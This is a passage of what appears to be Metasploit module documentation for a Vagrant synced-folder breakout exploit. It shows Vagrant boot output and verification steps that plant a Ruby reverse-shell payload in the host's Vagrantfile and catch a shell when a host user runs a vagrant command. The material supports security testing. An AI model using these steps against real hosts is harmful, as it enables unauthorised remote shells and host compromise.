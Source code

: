 ```
    default: this with a newly generated keypair for better security.
    default: 
    default: Inserting generated public key within guest...
    default: Removing insecure key from the guest if it's present...
    default: Key inserted! Disconnecting and reconnecting using new SSH key...
==> default: Machine booted and ready!
==> default: Checking for guest additions in VM...
    default: The guest additions on this VM do not match the installed version of
    default: VirtualBox! In most cases this is fine, but in rare cases it can
    default: prevent things such as shared folders from working properly. If you see
    default: shared folder errors, please make sure the guest additions within the
    default: virtual machine match the version of VirtualBox you have installed on
    default: your host and reload your VM.
    default: 
    default: Guest Additions Version: 6.0.10
    default: VirtualBox Version: 6.1
==> default: Mounting shared folders...
    default: /vagrant => /home/user/vagrant/vagrant_getting_started
```


Note: As the virtual machine resides within a virtual NAT environment,
for testing purposes it may be easier to bridge the virtual machine network
adapter to allow access from the LAN. This can be achieved by modifying
the virtual machine network adapter settings via the `virtualbox` GUI.

Also note that in doing so you are opening an intentionally vulnerable guest
VM to your network for the purposes of executing arbitrary code on the host.


## Verification Steps

1. Start `msfconsole`
1. Get a session within a Vagrant guest virtual machine
1. Do: `use exploit/multi/local/vagrant_synced_folder_vagrantfile_breakout`
1. Do: `set SESSION <session>`
1. Do: `check`
1. The module should report that the host appears to be vulnerable
1. Do: `set PAYLOAD ruby/shell_reverse_tcp`
1. Do: `set lhost <lhost>`
1. Do: `set lport <lport>`
1. Do: `run`
1. The module should report that the payload was written successfully
1. Do: `use exploit/multi/handler`
1. Do: `set PAYLOAD ruby/shell_reverse_tcp`
1. Do: `set lhost <lhost>`
1. Do: `set lport <lport>`
1. Do: `run -jz`
1. Wait until a user runs a vagrant command from within the project directory on the host system (ie, `vagrant status`)
1. You should get a new session on the host operating system
